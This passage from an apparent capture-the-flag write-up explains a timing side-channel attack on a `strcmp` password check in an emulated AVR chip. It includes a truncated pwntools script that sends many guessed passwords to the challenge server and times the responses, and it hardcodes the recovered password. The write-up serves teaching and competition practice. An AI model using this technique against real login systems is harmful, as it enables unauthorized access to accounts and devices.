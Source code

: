 We can measure this thanks for a few reasons.

First, the developers are printing the current time on every loop iteration - and this time is measure locally on the processor, so you don't need to measure it your self, across time-unreliable global network. Time measurement here is very delicate, because the timing attack here relies on measuring a single `strcmp` iteration, which is just running a few extra machines opcodes:

![image-20200826003656041](C:\Users\David\AppData\Roaming\Typora\typora-user-images\image-20200826003656041.png)

As you can see, every `strcmp` iteration is made of  just a few machine codes. We will have to be very exact on our attack. 

The second reason (this is only my speculation, but I think its true) is that the developers are actually running the chip 10x times slower then normal speed. You can see in the `simavr_diff` file that they changed the emulator speed to `100000hz` instead of `16000000hz`. Slowing the processor down gives us a chance to do timing stuff.

The third - (also my speculation) is that the timer will not start until we give the program `'\n'` - this lets us a little control over when the timer starts, and that we can send `\nagent\npassword` to the program, and we know that the time measured by `get_time` doesn't rely on our  time latency global network. 

The fourth - we can try a few wrong passwords before time runs out. measuring  the `strcmp` extra time for a single iteration one time -  is impossible, due to the many other things effecting the time measurement (like reading from the UART). We will have to run the test on the same `character` we are testing many times, to see a real time difference.

So lets see some code!

**Note:** This solution doesn't work out of the box. we had to play with this a little, guess some letters, and change the `TIMES` variable. If you know how to make this better, let me know :)

```python
from pwn import *
import string
import time
import tqdm
import Queue 
import threading

charset = string.letters + string.digits + '!_?#@'
real_pw = "doNOTl4unch_missi1es!"
PRE = ''

# you'll need to play with this untill it works... I don't know the exact recipe...
TIMES = 560

def get_uptime(s):
    value = -1
    for line in s.split('\n'):
        try:
            if "Uptime" in line:
                value = int(line.split(' ')[1].replace('us', ''))
        except:
            print line
            raise Exception("timed out")
    return value

def get_letter_time(let, times, prefix = ''):
    context.log_level = 30
    conn = remote("avr.2020.ctfcompetition.com", 1337)
    creds = "agent\n" + prefix + let + "\n"
    conn.send('\n' + creds * times)
    arr = []
    out = conn.recvall()
    if "granted" in out:
        print "password is: " + prefix + let
```

[here]: https://en.wikipedia.org/wiki/Timing_attack#:~:text=In%20cryptography%2C%20a%20timing%20attack,taken%20to%20execute%20cryptographic%20algorithms.
[datasheet]: http://ww1.microchip.com/downloads/en/DeviceDoc/Atmel-7810-Automotive-Microcontrollers-ATmega328P_Datasheet.pdf